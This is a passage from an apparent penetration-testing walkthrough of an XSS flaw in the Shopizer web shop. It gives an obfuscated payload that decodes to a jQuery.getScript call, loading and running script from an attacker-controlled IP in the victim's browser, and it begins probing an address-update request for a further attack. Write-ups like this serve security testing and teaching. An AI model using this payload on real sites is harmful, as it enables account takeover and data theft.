 If we wrap our payload with the `btoa()` method in order to Base64 the whole payload, the message gets away (Figure 20).

{% code overflow="wrap" %}
```javascript
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyLmpzJyk="))+'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xss_shopizer_9.png" alt=""><figcaption><p>Figure 20: Getting rid of the <code>Error</code> message.</p></figcaption></figure>

### Exploitation

We have successfully enumerated an XSS vulnerability and constructed an executable payload. Unfortunately, when logging into the application, the `JSESSIOND` cookie sets the [`HttpOnly`](../../common-findings/cookie-flags.md) attribute to `true` (Figure 21). As a result, we won't be able to access this with JavaScript.

<figure><img src="../../../.gitbook/assets/web_xss_shopizer_10.png" alt=""><figcaption><p>Figure 21: Inspecting the application's cookies.</p></figcaption></figure>

Under _My Account_ > _Billing & shipping information_ there is the option _Add new address_. This `POST` request includes the `customerId` parameter, but it appears to be optional (Figure 22).

<figure><img src="../../../.gitbook/assets/web_xss_shopizer_11.png" alt=""><figcaption><p>Figure 22: Inspecting the <code>updateAddress</code> <code>POST</code> request.</p></figcaption></figure>
